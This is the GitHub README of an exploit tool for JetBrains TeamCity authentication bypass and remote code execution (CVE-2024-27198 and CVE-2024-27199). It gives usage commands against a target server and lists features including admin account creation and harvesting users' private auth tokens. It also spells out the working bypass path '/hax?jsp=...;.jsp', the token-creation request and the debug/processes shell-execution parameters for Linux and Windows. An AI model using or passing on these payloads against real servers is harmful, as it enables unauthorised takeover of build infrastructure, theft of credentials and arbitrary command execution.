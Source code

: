 # RCity - CVE-2024-27198 (RCE & Admin Account Creation) & CVE-2024-27199 (Auth Bypass)
<b>Exploiting CVE-2024-27198 & CVE-2024-27199</b>

RCity is a Python script that interacts with a vulnerable TeamCity server. The CVE facilitates for unauthorised admin account creation, bypassing 403's on the domain. Whilst also achieving RCE, through the Debug/Processes route.

## Usage

To use the script, you need to provide the target TeamCity server URL as a command-line argument with the `-t` or `--target` argument: 

```bash
python3 RCity.py -t http://teamcity.com:8111
```

You can increase output verbosity with the `-v` or `--verbose` option:

```bash
python3 RCity.py -t http://teamcity.com:8111 --verbose
```

You can send one shot commands directly through `-c` or `--command` option, <b>if you want an interactive shell DO NOT use this option</b>:

```bash
python3 RCity.py -t http://teamcity.com:8111 -c id
```


## Features

- Admin Account Creation

- Remote Code Execution

- Generating Authorisation Tokens

- Enumerating Users

- Gatherin all Private Auth Tokens of Users

- Gathering Server Details

## Example


![image](https://github.com/Stuub/RCity-CVE-2024-27198/assets/60468836/8d14842d-6f9e-47dc-8a14-0543c8888d10)


# RCE

![image](https://github.com/Stuub/RCity-CVE-2024-27198/assets/60468836/f6279e56-1b95-4295-9b04-8ccf825a03bd)

# Token Generation


![image](https://github.com/Stuub/RCity-CVE-2024-27198/assets/60468836/a6377923-ebdc-4119-bb70-f4dcbadac084)


# Documentation

Here I'll go through the functions used in this project, to hopefully give you a better comprehension behind this exploit and the vulnerbailities associated with it.  

## Background

The nature of the vulnerability correlates between both CVE-2024-27198 & 99 due to the nature of the issue being produced from the same authentication bypass for REST API routes within JetBrains TeamCity servers. However, the impact of said vulnerability is where it interchanges, and gets interesting... CVE-2024-27198 being the real heavy hitter on paper, due to it's disclosed RCE impact, leverages the `/app/rest/debug/processes` endpoint, <b> ONLY </b> with the permissions to make the necessary requests to this endpoint, via an Auth Token. This call to this endpoint differs between Unix and Windows hosts, however is manipulated similarly, the only difference being the native shell that is provoked for a request. 

Linux - `processes?exePath=/bin/sh&params=-c&params={yourRCE_HTMLEncoded}`

Windows - `processes?exePath=cmd.exe&params=/c&params={yourRCE_HTMLEncoded}`

## Auth Bypass

Now, as mentioned prior - this isn't possible without authentication, should be safe... right? That's where the Auth Bypass comes in.

Bypassing the policy of the TeamCity build opens up the oppurtunity to make requests against the server and drop our Auth Token in there, without even technically needing our own account.

The bypass itself, is creating an alternative path to REST routes, that without going into too much detail, necessitates the control of contents in a class that's job is to handle requests, specifically those that aren't 302 (redirects), which then allows us to control it by appending 3 necessary parts into our URL.

1. An unauthenticated endpoint that will not trigger a 302, in our case `/hax`

2. A URL query parameter named `jsp` to query the API Routes, for examples sake, the `users` path `?jsp=/app/rest/users`

3. An arbitrary URI path ends with .jsp. This can be achieved by appending an HTTP path parameter segment `;.jsp`

Meaning the final payload for making unauthorised requests to the users endpoint is: `/hax?jsp=/app/rest/users;.jsp`

Now we can make requests against the users endpoint and add our own users, even Administrators!

However, before we can go to RCE, we need an Auth token, as the bearer for our RCE requests against their REST API. No issue now we have our bypass, we'll go make one!

## REST API Token Generation --> RCE

The token endpoint was following the same path tree as the previous example, it can be found at `/app/rest/users/id:{user_id}/tokens/{token_name}`. So let's craft another payload to bypass auth and create a token!

<i>(We supply our own token name for this, for this script it is a random generation of alphanumeric ascii characters).</i>

`/hax?jsp=/app/rest/users/id:{user_id}/tokens/{token_name};.jsp`

After making our POST request to add our token into our newly created user, we can now start making requests against the `/app/rest/debug/processes` route!

Nothing special about the crafting of our RCE payloads, just HTML encode your payloads in the params argument!

##

<b>Happy hacking!</b>

## References

https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/

https://nvd.nist.gov/vuln/detail/CVE-2024-27198

https://github.com/W01fh4cker/CVE-2024-27198-RCE

## Disclaimer

This script is for educational purposes only. Use it responsibly and only on systems you have permission to access.
